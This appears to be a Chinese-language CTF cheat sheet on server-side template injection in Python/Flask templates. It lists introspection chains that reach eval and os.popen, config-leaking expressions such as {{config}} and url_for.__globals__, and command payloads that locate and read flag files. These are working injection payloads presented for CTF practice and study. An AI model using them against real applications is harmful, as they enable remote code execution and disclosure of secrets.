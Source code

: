 # SSTI

* ### 标准SSTI查询语句

```
''.__class__.__base__.__subclasses__() //返回子类列表
''.__class__.__base__.__subclasses__()[30].__init__ //查看第30位子类的init，返回<slot wrapper '__init__' of 'object' objects>则未被重载不存在init
''.__class__.__base__.__subclasses__()[5].__init__.__globals__['__builtins__']['eval']  //执行命令
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()  //得到ls结果并打印在页面上
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('cat fl4g').read()
```

* ### SSTI注入

源代码未对config进行过滤时：

```
{{config}} //调出所有app.config中的字段
```

SSTI注入尝试：对于@app.route\('/shrine/'\)，使用

```
/shrine/{{1+1}}
```

进行注入尝试

```
/shrine/{{url_for.__globals__}}   //查看全局
/shrine/{{url_for.__globals__['current_app'].config}}  //查看当前app下的config
```

Payload：

```
{{system('find / -name flag')}}    //查找名为flag的文件
{{system('cat /flag')}}   //获取根目录下名为flag的文件
```



注入点发现：输入时采用{{1+1}}判断是否存在注入点



